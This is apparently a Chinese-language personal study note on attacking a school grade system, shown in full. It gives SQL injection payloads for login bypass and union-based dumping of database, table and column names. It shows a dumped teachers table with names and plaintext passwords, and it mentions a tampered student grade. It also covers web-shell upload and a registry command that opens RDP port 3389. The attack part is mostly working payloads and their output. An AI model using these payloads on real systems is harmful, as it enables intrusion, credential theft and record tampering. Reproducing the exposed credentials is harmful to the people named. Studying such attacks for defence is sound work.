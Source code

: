 #### 密码绕过与木马上传

#### 基础

1.‘ or 1=1 #绕过

![image-20210119172900587](D:/Vs Workstation/note/img/image-20210119172900587.png)


![image-20210119180645483](D:/Vs Workstation/note/img/image-20210119180645483.png)![image-20210119172909455](D:/Vs Workstation/note/img/image-20210119172909455.png)

```
1'or 1=1 #
```

![image-20210119210224567](D:/Vs Workstation/note/img/image-20210119210224567.png)

```
' union select 1
```

![image-20210119210405118](D:/Vs Workstation/note/img/image-20210119210405118.png)

![image-20210119210520518](D:/Vs Workstation/note/img/image-20210119210520518.png)

```
'union select database()#
```



![image-20210119210622783](D:/Vs Workstation/note/img/image-20210119210622783.png)

```
' union select group_concat(table_name) from information_schema.tables where table_schema='grade'#
```

![image-20210119215423529](D:/Vs Workstation/note/img/image-20210119215423529.png)

```
' union select group_concat(column_name) from information_schemas.columns where table_name ='admins' and table_schema =database()#
```

![image-20210119220843021](D:/Vs Workstation/note/img/image-20210119220843021.png)

```
' union select group_concat(id,'',name,'',pass,'')from teachers#
```

![image-20210119221303581](D:/Vs Workstation/note/img/image-20210119221303581.png)

```
2001 fengwanzhong feng001
2002 yunankun   yu002
```

![image-20210119221627652](D:/Vs Workstation/note/img/image-20210119221627652.png)

```
爆出学生名字
```

![image-20210119222335012](D:/Vs Workstation/note/img/image-20210119222335012.png)

![image-20210119222527028](D:/Vs Workstation/note/img/image-20210119222527028.png)

可以看到该学生的英语被夸张的修改

![image-20210119222609202](D:/Vs Workstation/note/img/image-20210119222609202.png)![image-2021011)

#### 代码审计

二、利用工具代码审计及一句话木马

1.1信息泄露审计

 ![image-20210119223639825](D:/Vs Workstation/note/img/image-20210119223639825.png)

1.2上传木马
![image-20210119223140179](D:/Vs Workstation/note/img/image-20210119223140179.png)

1.3获取shell
![image-20210119223717650](D:/Vs Workstation/note/img/image-20210119223717650.png)

拓展开启3389端口

```
1）开启3389端口：

在cmd内，执行如下命令，即可开启3389端口。

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

2）关闭3389端口：

在cmd内，执行如下命令，即可关闭3389端口。

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 11111111 /f
```

